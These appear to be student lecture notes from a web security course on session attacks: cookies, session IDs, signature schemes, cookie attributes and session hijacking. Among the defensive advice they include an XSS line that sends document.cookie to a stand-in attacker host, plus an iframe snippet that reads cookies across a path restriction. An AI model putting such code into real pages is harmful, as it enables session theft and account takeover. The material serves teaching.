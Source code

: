 ```yaml
---
title: Lecture 3 Session Attacks
---
```



* The server can set cookies with `Set-Cookie: theme=dark;` (Header Name, Cookie Name, Cookie Value).
* The browser automatically adds cookies with every request.
* Cookies are so old they precede the SOP. You basically set an expiration date on the Cookie and clear it by setting a date in the past.
* Sign cookies to prevent tampering.

### Sessions
* Server wants to keep data about the user over multiple requests. (ex: Logins, shopping carts, user tracking)
* **Ambient Authority**: access control based on global/persistent property of the user (as long as they specify an action, it will be done).
There are 4 ways of doing this: Cookies (common), IP checking (used at Stanford for lib resources), built-in HTTP auth (rare), client certs (rare)
* Generate a random number, use that as session ID and store it. Make these unguessable and delete them from DB on logout.

### Signature Schemes
* Triple of algorithms (G, S, V)
* Generator (`G() -> (pk, sk)`), Signer (`S(sk, x) -> t`), Verifier (`V(pk, x, t) -> accept/reject`).

### History of Cookies
* Implemented in 1994 in Netscape, described in 4 pages. No spec for 17 years.
* Ad-hoc design has led to interesting issues.
* There were several attempts but they had incompatible changes -- one in 1997, another in 2000 (Cookie2), and finally one succeeded (RFC 6265) in 2011.
* Cookies are a weird special case that behaves differently from everything else on the web.

### Cookie Attributes
* Expires: Specifies expiration date. If no date, lasts for session (until you close browser, but now there's session restoration).
* Path: Scope the "Cookie" header to a particular path prefix. e.g. `Path=/docs` matches `/docs` and `/docs/web`. Don't use this for security.

### Accessing Cookies from JS
* `document.cookie = 'name=Feross'`
* `document.cookie = 'favoriteFood=Cookies; Path=/'`
* `document.cookie` is now `name=Feross; favoriteFood=Cookies;` (it didn't delete)
* `document.cookie = 'name=; Expires=Thu, 01 Jan 1070...'` in order to delete

### Session Hijacking
* Session hijacking works by stealing cookies.
* This can happen over HTTP (not S).
* Use `Secure` cookie attribute to prevent the cookie from being sent over unencrypted HTTP.
* e.g. `Set-Cookie: key=value; Secure` (or just use HTTPS for the whole website.)
* XSS: Attacker can insert their code and easily exfiltrate the user's cookie. 
* e.g. `new Image().src = 'https://attacker.com/steal?cookie=' + document.cookie`
* Protect cookies from XSS: Prevent it from being used in JS: `Set-Cookie: key-value; Secure; Httponly`

#### How to get around path restriction for cookies: add an iframe. 
```
const iframe = document.createElement('iframe')
iframe.src= = 'https://web.stanford.edu/class/cs106a'
document.body.append(iframe)
iframe.style.display = 'none' // Set iframe to be invisible
// contentDocument is the equivalent of their document. We can cross
// this boundary to see their equivalent of document
iframe.contentDocument.cookie
```
Only use path as an optimization!



